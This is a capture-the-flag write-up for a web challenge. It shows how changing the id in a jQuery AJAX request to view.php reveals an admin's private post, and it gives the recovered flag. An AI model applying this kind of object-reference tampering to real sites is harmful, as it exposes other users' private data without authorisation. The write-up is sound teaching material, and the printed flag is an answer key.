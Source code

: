 # Web 200

Web 200 is a sort of web bulletin board.

You can make an account, log in, post messages (which appear in
a large public list of all 'posts'), and view your own messages.

![Full Listing](assets/web200/flag_listing.png)

It seems that there is an **admin** account with a **flag** post. It
turns out that the goal of the puzzle is to illegally read the post.

I made the user **apple**, and then made a post titled **sdfsdf**. The
contents of the post was also **sdfsdf**. I probably should have
made them different.


![Own Post's Listing](assets/web200/own_listing.png)

As the picture shows, I can see other people's post titles and my own,
but I cannot see the contents. I can click View next to my own post to see the contents of my post.

![View Post](assets/web200/view_post.png)

Upon inspection of my network tabs, it's clear that clicking View
creates an ajax request to retrieve the description data.

![Ajax Request](assets/web200/ajax_request.png)

The source of the web page contains the following code:

    $.ajax({
        type: "POST",
        url: "view.php",
        data:"View=View&id="+id,
        success: function(msg) {
            alert(msg);
        }
    });

Mutate it to be that of the flag, and fire. With trial and error, It turns out that the flag's
id is 1, not 0.

    $.ajax({
        type: "POST",
        url: "view.php",
        data:"View=View&id="+1,
        success: function(msg) {
            alert(msg);
        }
    });

![Ajax Request](assets/web200/flag.png)

    ChutkiisVERYcute

